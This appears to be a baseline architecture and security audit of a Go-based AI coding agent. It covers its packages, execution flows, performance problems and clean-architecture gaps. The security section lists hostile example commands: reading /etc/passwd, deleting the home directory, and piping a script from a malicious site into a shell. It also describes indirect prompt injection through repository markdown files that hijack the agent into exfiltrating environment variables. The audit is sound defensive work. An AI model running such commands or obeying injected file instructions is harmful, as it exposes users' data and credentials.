



# Pi Code (pi-go Baseline Architecture Audit & Technical Documentation)

**Date:** March 2025
**Audit Scope:** `main` branch codebase (`cmd/`, `internal/`, `piagent/`, `pimodels/`)
**Auditor:** Expert Senior Go Architect, Security Auditor, and Technical Writer
**Status:** Completed Baseline Audit (Pre-Phase 0 Infrastructure Mapping)

---

## Executive Summary

This document provides a comprehensive baseline architecture, security, performance, and structural audit of the `pi-go` codebase prior to its evolution into **Pi Code**, an AI-native software engineering agent. The codebase represents a Go implementation built around Google's Agent Development Kit (ADK `v2`), providing multi-provider LLM support, local shell and filesystem tool integration, subagent process orchestration, interactive terminal user interfaces (TUI), and web-based terminal pairing capabilities.

While the existing system contains sophisticated subsystems (such as two-stage history compaction, process group supervision, and memory palace indexing), the system exhibits **significant architectural coupling**, **infrastructure leakage into core domains**, **critical security vulnerabilities around command execution and path sandboxing**, and **unpopulated Clean Architecture abstraction layers**.

---

## Table of Contents

1. [Architecture Overview & System Topology](#1-architecture-overview--system-topology)
2. [Execution Flow Analysis & Diagrams](#2-execution-flow-analysis--diagrams)
3. [Security & Threat Report](#3-security--threat-report)
4. [Performance & Resource Audit](#4-performance--resource-audit)
5. [Technical Debt & Gap Analysis (Clean Architecture Standard)](#5-technical-debt--gap-analysis-clean-architecture-standard)

---

## 1. Architecture Overview & System Topology

### 1.1 High-Level Component Layout

The repository is structured into binary entry points (`cmd/`), public SDK facades (`piagent/`, `pimodels/`), internal core domains (`internal/`), and configuration/specification templates.

```
pi-go/
├── cmd/
│   ├── pi/                # Primary CLI binary (Cobra root command, mode dispatch)
│   ├── pi-acp-mock/       # Mock server for ACP protocol testing
│   ├── pi-mermaid/       # Diagram rendering tool wrapper
│   └── pi-sandbox/       # Test sandbox helper utility
├── piagent/               # Embedder public facade (wrapper around internal/agent)
├── pimodels/              # Model factory public facade (provider/model instantiation)
└── internal/
    ├── agent/             # Core ADK runner & agent loop initialization
    ├── autocompact/       # Context window tracking & compaction hooks
    ├── cli/               # Command-line dispatchers, flags, interactive mode drivers
    ├── config/            # Role, model, and system configuration parsing (~/.pi-go/config.json)
    ├── execution/         # [Unused Abstraction] CommandExecutor interface definition
    ├── extension/         # Hooks (before/after tool), skills, and MCP toolset integration
    ├── guardrail/         # Token usage tracking & budget enforcer
    ├── jsonrpc/            # Unix-socket JSON-RPC 2.0 server for editor integrations
    ├── logger/            # Structured session logging (JSONL under ~/.pi-go/log/)
    ├── lsp/               # Language Server Protocol client manager & tool bridge
    ├── memory/            # SQLite observation store & background compression worker
    ├── models/            # [Unused Abstraction] TaskState, ChatMessage domain models
    ├── orchestrator/      # High-level task orchestration interfaces
    ├── otel/              # OpenTelemetry tracing initializer & span exporters
    ├── palace/            # Vector & SQLite memory palace storage & wake-up context
    ├── pirpc/             # Stdio NDJSON RPC server for pi-acp editor integration
    ├── provider/          # 10 LLM provider implementations (OpenAI, Anthropic, Gemini, etc.)
    ├── ratelimit/         # Client-side rate limiting transport & Prometheus metrics
    ├── repository/        # [Unused Abstraction] FileSystem & GitProvider domain interfaces
    ├── subagent/          # Subagent process spawner, pool, and git worktree manager
    ├── tools/             # Built-in agent tools (bash, read, write, edit, grep, find, etc.)
    ├── tui/               # Bubbletea-based terminal UI renderer & interactive event loop
    ├── verification/      # Automated post-task verification checks
    └── webserver/         # HTTP/WebSocket ServerV2, PTY bridge pool, pairing auth, voice
```

### 1.2 Core Subsystem Responsibilities

1. **Agent Engine (`internal/agent/`, `piagent/`)**: Wraps `google.golang.org/adk/v2/runner` and `google.golang.org/adk/v2/agent/llmagent`. Assembles system instructions, registers available tools, injects project rules (`AGENTS.md`, `CLAUDE.md`), and manages turn execution.
2. **Model Providers (`internal/provider/`, `pimodels/`)**: Translates Google ADK `model.LLM` requests into vendor-specific HTTP APIs across OpenAI, Anthropic, Gemini, Mistral, xAI, Ollama, Azure, OpenRouter, OpenCode, and AgentGateway. Handles streaming response parsing, rate limiting, and HTTP tracing.
3. **Tool Belt (`internal/tools/`)**: Provides filesystem access (`read`, `write`, `edit`, `ls`, `tree`, `find`, `grep`), process execution (`bash`, `bash_wait`, `bash_kill`), subagent delegation (`subagent`), memory querying (`memory`), and LSP integration (`lsp`).
4. **Subagent Orchestration (`internal/subagent/`)**: Manages child subagent processes. Includes concurrency pooling (`Pool`), isolated workspace provisioning (`WorktreeManager`), and support for external agent adapters (ACP/Claude, Gemini, Codex).
5. **Terminal & Web Server (`internal/webserver/`, `internal/tui/`)**: Serves an interactive web terminal over WebSockets using pseudo-terminals (`pty`), protected by a code-pairing authentication scheme (`PairingManager`).

---

## 2. Execution Flow Analysis & Diagrams

### 2.1 Primary Agent Turn Loop

The primary execution loop processes user messages through prompt loading, LLM inference, tool execution, callback hooks, and context auto-compaction.



### 2.2 Subagent Orchestration Lifecycle

When the main agent spawns a subagent to delegate tasks:



### 2.3 Web Server & Terminal PTY Flow



### 2.4 Supported Use Cases & Unhandled Edge Cases

#### Supported Use Cases:
- **Interactive TUI Session**: Single-user terminal environment driven by Bubbletea.
- **One-Shot Print & JSON Modes**: Scriptable CLI execution yielding raw text or NDJSON streams.
- **RPC & Socket Modes**: Editor/IDE integration via Stdio NDJSON or Unix Sockets.
- **Multi-Agent Worktree Parallelism**: Concurrent git worktree isolation for feature/exploration subagents.
- **Web Pairing Terminal**: Passwordless code-based web terminal access for remote browser pairing.

#### Unhandled Scenarios & Edge Cases:
1. **LLM Provider Timeout Stalls**: Streaming completions lack an aggressive per-chunk idle timeout; if an upstream LLM connection stalls without closing the TCP connection, the turn can hang indefinitely.
2. **Shell Subprocess Hangs**: While `tools.BashSupervisor` enforces a foreground budget (default 60s) before moving processes to the background, background processes that spawn child processes (e.g., `nohup` or daemonized subshells) can evade termination when the session closes.
3. **Piped Input Starvation**: Non-interactive `print` or `json` mode reading from `os.Stdin` blocks indefinitely if the pipe writer does not close EOF.
4. **Git Lock Contention**: Concurrent subagents attempting git operations in shared non-worktree environments encounter unhandled `.git/index.lock` collisions.

---

## 3. Security & Threat Report

Because `pi-go` acts as an autonomous agent capable of modifying local files, issuing shell commands, and hosting network servers, a strict security audit was performed. The findings are categorized below by risk severity.

### 3.1 Vulnerability Matrix

| Vulnerability ID | Category | Risk Level | Description | Target Component |
| :--- | :--- | :--- | :--- | :--- |
| **SEC-01** | Command Injection / Host Execution | **CRITICAL / HIGH** | Unsanitized shell execution in `bash` tool with full host user privileges; no OS/container isolation. | `internal/tools/bash.go` |
| **SEC-02** | Sandbox Bypass | **HIGH** | `bash` tool executes shell commands that completely bypass the Go 1.24 `os.Root` sandbox enforcement. | `internal/tools/sandbox.go` & `bash.go` |
| **SEC-03** | Path Traversal via Worktrees | **MEDIUM** | Subagent worktree path normalization (`resolveWorktreePath`) allows escaping target root under specific symlink/relative path configurations. | `internal/tools/sandbox.go` |
| **SEC-04** | Indirect Prompt Injection | **HIGH** | Unfiltered inclusion of external file contents, web search results, and subagent output into system instruction context. | `internal/agent/agent.go` |
| **SEC-05** | Credential Exposure in Logs | **MEDIUM** | Full HTTP tracing (`--trace-http`) logs cleartext request/response bodies which may hold sensitive tokens or user secrets if regex redaction misses them. | `internal/httplog/` & `internal/tools/redact.go` |
| **SEC-06** | Overly Broad File System Access | **MEDIUM** | Sandbox automatically adds `~/.pi-go` as an extra root, granting the agent access to global credentials and configuration. | `internal/cli/cli.go` |

---

### 3.2 Detailed Findings

#### SEC-01 & SEC-02: Shell Command Injection & Sandbox Bypass
- **Location**: `internal/tools/bash.go`, `internal/tools/sandbox.go`
- **Analysis**: The `Sandbox` struct utilizes Go 1.24's `os.Root` to prevent file tool operations (`read`, `write`, `edit`, `ls`) from traversing outside the root directory. However, the `bash` tool executes arbitrary commands via `exec.CommandContext("bash", "-c", command)` (or `powershell.exe` on Windows).
- **Impact**: The model or an attacker via prompt injection can issue commands like `cat /etc/passwd`, `rm -rf ~`, or `curl https://malicious.site | sh`. The `os.Root` filesystem restrictions do NOT apply to child processes created by `bash`.

#### SEC-03: Worktree Path Normalization Edge Cases
- **Location**: `internal/tools/sandbox.go` (`resolveWorktreePath`)
- **Analysis**: When subagents operate in git worktrees, relative paths beginning with `../` are re-anchored to `worktreeDir` and then converted back to relative paths from the primary sandbox root. If symlinks exist inside the worktree pointing outside the project, `filepath.Clean` fails to detect breakout.
- **Impact**: Potential unauthorized file reading or overwriting outside the designated git worktree.

#### SEC-04: Indirect Prompt Injection
- **Location**: `internal/agent/agent.go`, `internal/tools/read.go`
- **Analysis**: Unsanitized prose loaded from project context files (`AGENTS.md`, `CLAUDE.md`, `.pi-go/AGENTS.md`), web search results, or file contents read via tools are concatenated directly into system instructions and prompt context. While `safeInstructionProvider` prevents crashes from missing `{state_var}` tokens, it does not isolate untrusted instructions.
- **Impact**: Adversarial markdown files in a repository can hijack the agent's behavior (e.g. instructing it to exfiltrate environment variables or corrupt source files).

#### SEC-05: Secret Management & Trace Logging
- **Location**: `internal/tools/redact.go`, `internal/provider/trace_transport.go`
- **Analysis**: `redactSecrets` uses regular expressions to mask API keys matching known patterns (`sk-...`, `ghp_...`, `Bearer ...`). Non-standard API keys, OAuth tokens in custom JSON payloads, or user passwords printed during test execution are logged in cleartext to `~/.pi-go/log/` or OTel traces when `--trace-http` is enabled.

#### SEC-06: Automatic Ingestion of User Configuration Directory
- **Location**: `internal/cli/cli.go` (`initNonInteractiveRuntime`)
- **Analysis**: The initialization logic explicitly registers `~/.pi-go` as an extra allowed sandbox directory (`sandbox.AddExtraDir`). This allows any session or subagent tool call to read `~/.pi-go/config.json`, SQLite database credentials, and `.env` files containing global API keys.

---

## 4. Performance & Resource Audit

### 4.1 Resource Allocation & Garbage Collection
- **GC Tuning (`cmd/pi/main.go`)**: `applyGCDefaults()` sets `GOMEMLIMIT=512MiB` and `GOGC=200` to reduce GC cycle frequency during high-frequency TUI re-renders. While effective for interactive sessions, long-running webserver instances (`ServerV2`) experience memory retention due to accumulated PTY buffers.
- **Context Compactor (`internal/autocompact/`)**: Implements a two-stage context reduction hook:
  1. *Deduplication*: Replaces duplicate or superseded tool call results with short references.
  2. *LLM Summarization*: Compresses older conversation turns using a summarization prompt when token count exceeds `CompactionThreshold`.
  - *Bottleneck*: Summarization issues a synchronous LLM call during `PreTurnHook`, blocking user input dispatch.

### 4.2 Concurrency & Goroutine Safety

1. **PTY Buffer Synchronization (`internal/webserver/pty.go`)**:
   - `PtyBridge` uses `writeMu` to serialize WebSocket frame writes across output goroutines, pong handlers, and keep-alive tickers.
   - *Issue*: If a WebSocket connection experiences network backpressure, `copyPtyToWS` blocks on `writeJSON`, accumulating unread data in the PTY master file buffer and leaking memory over time.
2. **Subagent Process Leaks (`internal/subagent/spawner.go`)**:
   - Subagents are isolated in OS process groups via `procs.Isolate(cmd)`.
   - *Issue*: If a subagent process spawns detached background subshells (e.g. `nohup` or `&`), calling `proc.Cancel()` or `syscall.Kill(-pgid, SIGKILL)` may fail to terminate child processes that detached into new session groups (`setsid`).
3. **Shared Map Concurrency**:
   - `Orchestrator.recentTasks` is guarded by an `RWMutex`, but `pruneRecentTasks()` holds a write lock while iterating over expired keys during heavy subagent dispatch, causing lock contention.

### 4.3 Missing Timeouts & Blocking Operations
- **Network / HTTP Client (`internal/provider/provider.go`)**: Connection timeouts (`ConnectTimeout`) are configurable, but streaming response readers rely solely on `context.Context` cancellation. Missing chunk-level idle timeouts mean a stalled provider stream will hold goroutines indefinitely.
- **Git Subprocess Calls (`internal/agent/agent.go`)**: `gitToplevelFn` uses a strict 2-second timeout, but `gitCurrentBranch` and worktree operations (`internal/subagent/worktree.go`) lack timeout bounds on certain stash/commit subcommands.

---

## 5. Technical Debt & Gap Analysis (Clean Architecture Standard)

### 5.1 Current State vs. Clean Architecture Target

The codebase contains an intentional Clean Architecture folder structure (`internal/models`, `internal/repository`, `internal/execution`), but these packages currently exist as **empty or unreferenced interface shells**. The primary codebase directly violates core Clean Architecture and SOLID principles:

```
[Current Codebase State]                         [Clean Architecture Standard (Target)]

+-------------------------------------+          +-------------------------------------+
|         cmd / CLI / TUI             |          |         Presentation Layer          |
+-------------------------------------+          +-------------------------------------+
                   |                                                |
                   v (Direct Vendor Coupling)                       v
+-------------------------------------+          +-------------------------------------+
|  Google ADK v2 (llmagent, runner)   |          |    Application / Use Case Layer     |
+-------------------------------------+          |   (Orchestrator, Planner, Session)  |
                   |                               +-------------------------------------+
                   v (Direct OS Execution)                          |
+-------------------------------------+                             v (Domain Interfaces)
|  internal/tools, internal/provider  |          +-------------------------------------+
| (os.Open, exec.Command, HTTP, SQLite)|         |            Domain Layer             |
+-------------------------------------+          | (models, repository, execution, ctx)|
                                                 +-------------------------------------+
                                                                    ^
                                                                    | (Inversion of Control)
                                                 +-------------------------------------+
                                                 |        Infrastructure Layer         |
                                                 |  (ADK v2, OS/exec, SQLite, Web)     |
                                                 +-------------------------------------+
```

### 5.2 Key Structural Violations & Technical Debt

1. **Vendor Lock-in (Google ADK v2)**:
   - `internal/agent`, `piagent`, `internal/tools`, and `internal/cli` directly import `google.golang.org/adk/v2`.
   - Domain objects (e.g. `session.Event`, `tool.Tool`, `model.LLM`) are Google ADK types rather than pure Go domain models. Replacing or upgrading ADK requires modifying almost every file in the repository.
2. **Infrastructure Leakage in Tools**:
   - `internal/tools/bash.go` directly instantiates `os/exec.Cmd`.
   - `internal/tools/write.go` and `read.go` directly invoke `os.Root` and `os.Stat`.
   - None of the tools consume the domain interfaces defined in `internal/repository` (`FileSystem`, `GitProvider`) or `internal/execution` (`CommandExecutor`).
3. **Unpopulated Core Domain Layer**:
   - `internal/models/models.go` defines `TaskState`, `ChatMessage`, and `ModelProvider`.
   - `internal/repository/repository.go` defines `FileSystem`, `GitProvider`, and `Repository`.
   - `internal/execution/execution.go` defines `CommandExecutor`.
   - **Gap**: Zero components in `internal/agent`, `internal/tools`, `internal/provider`, or `internal/subagent` consume or implement these domain interfaces. They are disconnected stubs.
4. **God Objects & Mixed Responsibilities**:
   - `internal/cli/cli.go` (1,600+ lines): Handles CLI flag parsing, configuration loading, LLM provider resolution, runtime assembly, tool registration, callback construction, session service management, and mode dispatching.
   - `internal/webserver/server.go`: Combines HTTP route setup, code pairing authentication, PTY process management, and WebSocket bridging into a single structure.

---

## 6. Decoupling Recommendations for Phase 0

To prepare the codebase for Phase 0 and subsequent development of **Pi Code**, the following refactoring steps must be executed:

1. **Invert Infrastructure Dependencies**:
   - Refactor `internal/tools/` to depend strictly on `internal/repository.FileSystem`, `internal/repository.GitProvider`, and `internal/execution.CommandExecutor` instead of raw `os`, `os/exec`, or `os.Root` calls.
2. **Decouple Core Domain from Google ADK**:
   - Map Google ADK `session.Event`, `model.LLM`, and `tool.Tool` types to domain abstractions in `internal/models/`.
   - Move ADK wrapper code entirely into an infrastructure adapter package (`internal/infrastructure/adk/`).
3. **Remediate Critical Security Flaws**:
   - Introduce an isolated execution backend (e.g., containerized or restricted process sandbox) for `CommandExecutor` to prevent arbitrary host command injection.
   - Remove `~/.pi-go` from the default sandbox allowed roots.
   - Implement structured input tags for external content to mitigate indirect prompt injection.
4. **Decompose Monolithic Controllers**:
   - Refactor `internal/cli/cli.go` and `internal/agent/agent.go` into modular, single-responsibility builders (e.g. `RuntimeBuilder`, `ToolsetRegistry`, `CallbackFactory`).

---
*End of Baseline Audit Document.*
